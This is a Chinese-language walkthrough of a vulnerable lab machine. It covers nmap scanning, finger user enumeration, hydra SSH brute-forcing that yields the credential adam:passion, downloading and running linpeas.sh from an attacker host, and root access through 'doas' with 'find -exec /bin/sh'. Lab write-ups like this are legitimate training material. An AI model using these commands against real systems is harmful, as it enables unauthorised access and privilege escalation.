

# 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/X6CBKJWTQC#BKNmfYEwUCOT)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```


新建文件夹用来存放nmap扫描结果


#### 主机探测


确定靶机ip：

192.168.1.17


#### 端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.1.17 -oA ./nmapscan/ports
```


开放了：

- 22 ssh
- 79 finger
- 80 http


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,79,80 192.168.1.17 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 79 finger
- 80 http Apache httpd 2.4.56


### 79端口

#### 利用nc测试用户信息

```
nc 192.168.1.17 79
asd
nc 192.168.1.17 79
root
```


当用户不存在时，会提示没有这个用户

当用户存在时，会显示用户信息

也就是我们可以利用脚本遍历用户字典，然后发送nc请求


#### 也可以用msfconsole

```
msfconsole
search finger
use 10
show options
set rhosts 192.168.1.17
set UsERS_FILE /usr/share/metasploit-framework/data/wordlists/namelist.txt
set THREADS 50
run
```


枚举用户名


得到用户

- adam


### 80端口

#### 访问192.168.1.17


apache主页

查看源码，无信息


#### 目录扫描

```
dirsearch -u http://192.168.1.17
```


无结果


#### gobuster扫描

```
gobuster dir -u http://192.168.1.17 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt
```



无结果


### 22 端口

#### 尝试hydra爆破密码

```
hydra -l adam -P /usr/share/seclists/Passwords/probable-v2-top12000.txt ssh://192.168.1.17
```


得到：

```
adam:passion
```


#### ssh登录

```
ssh adam@192.168.1.17
```


## 提权

### 得到第一个flag

```
ls
cat user.txt
```


### 查看用户信息

```
cat /etc/passwd
```


只有这一个普通用户


### 执行sudo -l


### suid文件查找

```
find / -perm -4000 2>/dev/null
```


存在doas


### 上传linpeas.sh

```
wget 192.168.1.3/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


即adam用户允许利用doas作为root用户执行find命令


### find提权

```
doas -u root /usr/bin/find . -exec /bin/sh \;
```


### 得到第二个flag

```
cd /root
ls
cat root.txt
```

